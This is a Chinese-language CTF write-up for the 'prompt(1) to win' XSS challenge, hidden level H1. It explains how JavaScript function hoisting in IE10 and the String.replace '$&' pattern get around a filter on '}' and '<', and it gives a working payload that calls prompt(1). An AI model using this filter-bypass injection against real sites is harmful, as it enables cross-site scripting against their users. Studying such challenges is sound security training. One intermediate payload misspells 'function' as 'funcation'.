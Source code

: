 ## [[prompt(1) to win](http://prompt.ml)] [[Level H1 – Hoisting](http://prompt.ml/-1)] [[解题报告](http://exp-blog.com/2019/06/09/pid-3891/)]

------

## 题目（隐藏关卡）

```javascript
function escape(input) {
    // WORLD -1

    // strip off certain characters from breaking conditional statement
    input = input.replace(/[}<]/g, '');

    return '                                                     \n\
<script>                                                         \n\
    if (history.length > 1337) {                                 \n\
        // you can inject any code here                          \n\
        // as long as it will be executed                        \n\
        {{injection}}                                            \n\
    }                                                            \n\
</script>                                                        \n\
    '.replace('{{injection}}', input);
}
```

------------

## 分析

从代码可以知道，注入点在 `if` 内部，很自然有三种思路：

- 使得 `history.length > 1337` 条件成立
- 闭合 `if`
- 闭合 `<script>`

但是由于 `}` 和 `<` 被过滤了，因此不论闭合 `if` 还是 `<script>` 都是不可能的，剩下的方法就是想办法令到 `history.length > 1337` 条件成立。

------------

## 前置知识

- [history](http://www.w3school.com.cn/jsref/dom_obj_history.asp)
- [Function length](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Function/length)
- [Function Hoisting](https://elegantcode.com/2011/03/24/basic-javascript-part-12-function-hoisting/)
- [String.prototype.replace()](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/String/replace)

------------

## 解题思路

这三个知识点是这题的解题关键。

关于 `history` 对象，需要知道的是它不可被直接读写，目前唯一保留的 API 只有 4 个：`length` 、 `back()` 、 `forward()` 、 `go()` 。

而在本题中用到的 `length` ，它会在首次打开浏览器窗口的时候置 0 ，每访问一个新得页面自动 +1 。但是这个特性并不能被利用来解题，原因是 `length` 得上限值是 50，而条件中的目标值是 1337 ，即使我们预先访问了 1337 个页面， `length` 的值还是 50 ，仍然无法绕过条件。

------------


但这并不意味着毫无办法了：因为 `history` 说到底就是一个全局对象，我们可以构造一个同名的 `history` 对象（必定是局部对象）实现对全局对象的覆盖。同时只要所构造的这个 `history` 局部对象同样具备 `length` 属性，且可以被我们自由控制，那么就能实现 `if` 条件绕过了。

既然可以使用局部对象覆盖，那么就有两个选择：

- 局部变量（如数组）：可以初始化数组的元素个数控制 `length` 属性
- 局部函数 ：可以通过声明入参的个数控制 `length` 属性

但是不要忘了，我们的注入点是在 `if` 里面的，亦即不管我们声明 `history` 局部函数、还是声明 `history` 局部变量，都是在 `history.length` 条件后面的位置，亦即会出现 **先使用后声明** 的语法错误。

------------


而为了解决这个问题，可以利用 Javascript 中的 Hoisting （提升）机制：在早期的 Javascript 编译器中，会把所有出现在代码中的 变量声明 或 函数声明，全部移到代码的开头。

不过 变量提升 和 函数提升 之间还是存在区别的：

- 变量提升：仅仅是把 声明变量的语句 提升到代码的开头，但是初始化语句还是保留在原有位置不变的，如果在初始化语句之前就使用了该变量，依然会出现语法错误（变量未定义）
- 函数提升：函数不存在初始化的说法，从而因为提升机制，使得函数只要在任意地方声明过一次，就可以在任何位置调用。

回到这题，由于注入点在 `if` 里面，所有我们应该选择函数提升，而不是变量提升。

> Javascript 的 Hoisting 机制仅在早期的编译器支持，现在 9102 年绝大部分浏览器都不会这样做了，经测试只有 IE10 还支持这种机制，换言之要用 Hoisting 机制解题，只能使用 IE10 浏览器。

------------

## 构造 payload

根据前面的思路，我们构造 payload 的方法为：在注入点声明一个 `history` 局部函数，函数入参数量至少为 1338 ，就能使得 `if` 条件成立，从而执行我们注入的代码。

例如 payload 为：

```javascript
funcation history(a1, a2, a3, ......, a1338) { /* any codes */ } prompt(1);
```

不过这个 payload 有个问题：就是我们要构造 `history` 函数，就需要使用到花括号 `{ }` ，但是 `}` 已经被题目过滤了 ！换言之我们不能直接输入 `}` 。

不能直接输入，但是可以间接输入。

绕过的方法需要利用到题目 JS 的 `replace('{{injection}}', input)` 函数的语法，第二个由我们控制的参数 input 是可以插入特殊变量名以达到某些效果的（详见 [这里](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/String/replace) ）：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%20H1%20-%20Hoisting/imgs/01.png)

而我们要使用的特殊变量名，就是

```
$&      // 这个变量名的效果是 【插入当前匹配的子串自身】。
```

就这题而言，因为 `replace('{{injection}}', input)` 被匹配的子串必定是 `{{injection}}`，利用 `$&` 将其插入到我们的 payload ，就能获得两对花括号 `{{ }}` 了，而里面的一对花括号会被编译器认为是局部代码块，因此并不会影响语法。

所以我们应该构造的 payload 为 ：

```javascript
funcation history(a1, a2, a3, ......, a1338) $& prompt(1);
```

当这个 payload 经过题目的 `replace('{{injection}}', input)` 函数处理，就会得到我们想要的效果：

```javascript
<script>
    if (history.length > 1337) {
        funcation history(a1, a2, a3, ......, a1338) {{injection}} prompt(1);
    }
</script>
```

------------

## 完成挑战

最后，输入这个 payload 到 IE10 即可完成挑战：

```javascript
function history(a1,a2,a3,a4,a5,a6,a7,a8,a9,a10,a11,a12,a13,a14,a15,a16,a17,a18,a19,a20,a21,a22,a23,a24,a25,a26,a27,a28,a29,a30,a31,a32,a33,a34,a35,a36,a37,a38,a39,a40,a41,a42,a43,a44,a45,a46,a47,a48,a49,a50,a51,a52,a53,a54,a55,a56,a57,a58,a59,a60,a61,a62,a63,a64,a65,a66,a67,a68,a69,a70,a71,a72,a73,a74,a75,a76,a77,a78,a79,a80,a81,a82,a83,a84,a85,a86,a87,a88,a89,a90,a91,a92,a93,a94,a95,a96,a97,a98,a99,a100,a101,a102,a103,a104,a105,a106,a107,a108,a109,a110,a111,a112,a113,a114,a115,a116,a117,a118,a119,a120,a121,a122,a123,a124,a125,a126,a127,a128,a129,a130,a131,a132,a133,a134,a135,a136,a137,a138,a139,a140,a141,a142,a143,a144,a145,a146,a147,a148,a149,a150,a151,a152,a153,a154,a155,a156,a157,a158,a159,a160,a161,a162,a163,a164,a165,a166,a167,a168,a169,a170,a171,a172,a173,a174,a175,a176,a177,a178,a179,a180,a181,a182,a183,a184,a185,a186,a187,a188,a189,a190,a191,a192,a193,a194,a195,a196,a197,a198,a199,a200,a201,a202,a203,a204,a205,a206,a207,a208,a209,a210,a211,a212,a213,a214,a215,a216,a217,a218,a219,a220,a221,a222,a223,a224,a225,a226,a227,a228,a229,a230,a231,a232,a233,a234,a235,a236,a237,a238,a239,a240,a241,a242,a243,a244,a245,a246,a247,a248,a249,a250,a251,a252,a253,a254,a255,a256,a257,a258,a259,a260,a261,a262,a263,a264,a265,a266,a267,a268,a269,a270,a271,a272,a273,a274,a275,a276,a277,a278,a279,a280,a281,a282,a283,a284,a285,a286,a287,a288,a289,a290,a291,a292,a293,a294,a295,a296,a297,a298,a299,a300,a301,a302,a303,a304,a305,a306,a307,a308,a309,a310,a311,a312,a313,a314,a315,a316,a317,a318,a319,a320,a321,a322,a323,a324,a325,a326,a327,a328,a329,a330,a331,a332,a333,a334,a335,a336,a337,a338,a339,a340,a341,a342,a343,a344,a345,a346,a347,a348,a349,a350,a351,a352,a353,a354,a355,a356,a357,a358,a359,a360,a361,a362,a363,a364,a365,a366,a367,a368,a369,a370,a371,a372,a373,a374,a375,a376,a377,a378,a379,a380,a381,a382,a383,a384,a385,a386,a387,a388,a389,a390,a391,a392,a393,a394,a395,a396,a397,a398,a399,a400,a401,a402,a403,a404,a405,a406,a407,a408,a409,a410,a411,a412,a413,a414,a415,a416,a417,a418,a419,a420,a421,a422,a423,a424,a425,a426,a427,a428,a429,a430,a431,a432,a433,a434,a435,a436,a437,a438,a439,a440,a441,a442,a443,a444,a445,a446,a447,a448,a449,a450,a451,a452,a453,a454,a455,a456,a457,a458,a459,a460,a461,a462,a463,a464,a465,a466,a467,a468,a469,a470,a471,a472,a473,a474,a475,a476,a477,a478,a479,a480,a481,a482,a483,a484,a485,a486,a487,a488,a489,a490,a491,a492,a493,a494,a495,a496,a497,a498,a499,a500,a501,a502,a503,a504,a505,a506,a507,a508,a509,a510,a511,a512,a513,a514,a515,a516,a517,a518,a519,a520,a521,a522,a523,a524,a525,a526,a527,a528,a529,a530,a531,a532,a533,a534,a535,a536,a537,a538,a539,a540,a541,a542,a543,a544,a545,a546,a547,a548,a549,a550,a551,a552,a553,a554,a555,a556,a557,a558,a559,a560,a561,a562,a563,a564,a565,a566,a567,a568,a569,a570,a571,a572,a573,a574,a575,a576,a577,a578,a579,a580,a581,a582,a583,a584,a585,a586,a587,a588,a589,a590,a591,a592,a593,a594,a595,a596,a597,a598,a599,a600,a601,a602,a603,a604,a605,a606,a607,a608,a609,a610,a611,a612,a613,a614,a615,a616,a617,a618,a619,a620,a621,a622,a623,a624,a625,a626,a627,a628,a629,a630,a631,a632,a633,a634,a635,a636,a637,a638,a639,a640,a641,a642,a643,a644,a645,a646,a647,a648,a649,a650,a651,a652,a653,a654,a655,a656,a657,a658,a659,a660,a661,a662,a663,a664,a665,a666,a667,a668,a669,a670,a671,a672,a673,a674,a675,a676,a677,a678,a679,a680,a681,a682,a683,a684,a685,a686,a687,a688,a689,a690,a691,a692,a693,a694,a695,a696,a697,a698,a699,a700,a701,a702,a703,a704,a705,a706,a707,a708,a709,a710,a711,a712,a713,a714,a715,a716,a717,a718,a719,a720,a721,a722,a723,a724,a725,a726,a727,a728,a729,a730,a731,a732,a733,a734,a735,a736,a737,a738,a739,a740,a741,a742,a743,a744,a745,a746,a747,a748,a749,a750,a751,a752,a753,a754,a755,a756,a757,a758,a759,a760,a761,a762,a763,a764,a765,a766,a767,a768,a769,a770,a771,a772,a773,a774,a775,a776,a777,a778,a779,a780,a781,a782,a783,a784,a785,a786,a787,a788,a789,a790,a791,a792,a793,a794,a795,a796,a797,a798,a799,a800,a801,a802,a803,a804,a805,a806,a807,a808,a809,a810,a811,a812,a813,a814,a815,a816,a817,a818,a819,a820,a821,a822,a823,a824,a825,a826,a827,a828,a829,a830,a831,a832,a833,a834,a835,a836,a837,a838,a839,a840,a841,a842,a843,a844,a845,a846,a847,a848,a849,a850,a851,a852,a853,a854,a855,a856,a857,a858,a859,a860,a861,a862,a863,a864,a865,a866,a867,a868,a869,a870,a871,a872,a873,a874,a875,a876,a877,a878,a879,a880,a881,a882,a883,a884,a885,a886,a887,a888,a889,a890,a891,a892,a893,a894,a895,a896,a897,a898,a899,a900,a901,a902,a903,a904,a905,a906,a907,a908,a909,a910,a911,a912,a913,a914,a915,a916,a917,a918,a919,a920,a921,a922,a923,a924,a925,a926,a927,a928,a929,a930,a931,a932,a933,a934,a935,a936,a937,a938,a939,a940,a941,a942,a943,a944,a945,a946,a947,a948,a949,a950,a951,a952,a953,a954,a955,a956,a957,a958,a959,a960,a961,a962,a963,a964,a965,a966,a967,a968,a969,a970,a971,a972,a973,a974,a975,a976,a977,a978,a979,a980,a981,a982,a983,a984,a985,a986,a987,a988,a989,a990,a991,a992,a993,a994,a995,a996,a997,a998,a999,a1000,a1001,a1002,a1003,a1004,a1005,a1006,a1007,a1008,a1009,a1010,a1011,a1012,a1013,a1014,a1015,a1016,a1017,a1018,a1019,a1020,a1021,a1022,a1023,a1024,a1025,a1026,a1027,a1028,a1029,a1030,a1031,a1032,a1033,a1034,a1035,a1036,a1037,a1038,a1039,a1040,a1041,a1042,a1043,a1044,a1045,a1046,a1047,a1048,a1049,a1050,a1051,a1052,a1053,a1054,a1055,a1056,a1057,a1058,a1059,a1060,a1061,a1062,a1063,a1064,a1065,a1066,a1067,a1068,a1069,a1070,a1071,a1072,a1073,a1074,a1075,a1076,a1077,a1078,a1079,a1080,a1081,a1082,a1083,a1084,a1085,a1086,a1087,a1088,a1089,a1090,a1091,a1092,a1093,a1094,a1095,a1096,a1097,a1098,a1099,a1100,a1101,a1102,a1103,a1104,a1105,a1106,a1107,a1108,a1109,a1110,a1111,a1112,a1113,a1114,a1115,a1116,a1117,a1118,a1119,a1120,a1121,a1122,a1123,a1124,a1125,a1126,a1127,a1128,a1129,a1130,a1131,a1132,a1133,a1134,a1135,a1136,a1137,a1138,a1139,a1140,a1141,a1142,a1143,a1144,a1145,a1146,a1147,a1148,a1149,a1150,a1151,a1152,a1153,a1154,a1155,a1156,a1157,a1158,a1159,a1160,a1161,a1162,a1163,a1164,a1165,a1166,a1167,a1168,a1169,a1170,a1171,a1172,a1173,a1174,a1175,a1176,a1177,a1178,a1179,a1180,a1181,a1182,a1183,a1184,a1185,a1186,a1187,a1188,a1189,a1190,a1191,a1192,a1193,a1194,a1195,a1196,a1197,a1198,a1199,a1200,a1201,a1202,a1203,a1204,a1205,a1206,a1207,a1208,a1209,a1210,a1211,a1212,a1213,a1214,a1215,a1216,a1217,a1218,a1219,a1220,a1221,a1222,a1223,a1224,a1225,a1226,a1227,a1228,a1229,a1230,a1231,a1232,a1233,a1234,a1235,a1236,a1237,a1238,a1239,a1240,a1241,a1242,a1243,a1244,a1245,a1246,a1247,a1248,a1249,a1250,a1251,a1252,a1253,a1254,a1255,a1256,a1257,a1258,a1259,a1260,a1261,a1262,a1263,a1264,a1265,a1266,a1267,a1268,a1269,a1270,a1271,a1272,a1273,a1274,a1275,a1276,a1277,a1278,a1279,a1280,a1281,a1282,a1283,a1284,a1285,a1286,a1287,a1288,a1289,a1290,a1291,a1292,a1293,a1294,a1295,a1296,a1297,a1298,a1299,a1300,a1301,a1302,a1303,a1304,a1305,a1306,a1307,a1308,a1309,a1310,a1311,a1312,a1313,a1314,a1315,a1316,a1317,a1318,a1319,a1320,a1321,a1322,a1323,a1324,a1325,a1326,a1327,a1328,a1329,a1330,a1331,a1332,a1333,a1334,a1335,a1336,a1337,a1338) $& prompt(1);
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%20H1%20-%20Hoisting/imgs/02.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
